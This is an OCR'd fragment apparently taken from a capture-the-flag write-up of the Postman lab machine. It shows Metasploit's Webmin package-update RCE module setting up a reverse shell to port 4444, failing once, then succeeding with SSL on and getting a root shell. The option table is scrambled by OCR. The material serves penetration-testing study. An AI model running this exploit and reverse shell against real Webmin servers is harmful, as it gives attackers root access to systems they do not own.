 ![](Maszyny/Linux/Postman/Pasted%20image%2020210829030545.png)

Matt
USERNAME
VHOST
yes
no
Webmin Username
HTTP server virtual host
Payload options (cmd/unix/reverse):
Name
Current Setting Required Description
10.10.14.23
The listen address (an interface may be specified)
4444
yes
The listen port
LHOST
LPORT
yes
Exploit target:
Id
Name
0
Webmin < 1.910
msf6 exploit(linux/http/webmin_packageup_rce) > run
[*] Started reverse TCP double handler on 10.10.14.23:4444
[-] Exploit aborted due to failure: unknown: Failed to retrieve session cookie
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/webmin_packageup_rce) >
msf6 exploit(linux/http/webmin_packageup_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
msf6 exploit(linux/http/webmin_packageup_rce) > run
SSL => true
[*] Started reverse TCP double handler on 10.10.14.23:4444
[+] Session cookie: a60616d1806aac346082d4e5071a1fa7
[*] Attempting to execute the payload ...
[*] Accepted the first client connection ...
Accepted the second client connection ...
Command: echo QKzp8 JuAZRp4uSbn;
Writing to socket A
Writing to socket B
Reading from sockets ...
Reading from socket A
[*] A: "QKzp8JuAZRp4uSbn\r\n"
[*] Matching..
[*] B is input ..
[*] Command shell session 1 opened (10.10.14.23:4444 → 10.10.10.160:37826) at 2021-08-29 03:05:12 +0200
...
getuid
sh: 7: getuid: not found
id
uid=0(root) gid=0(root) groups=0(root)

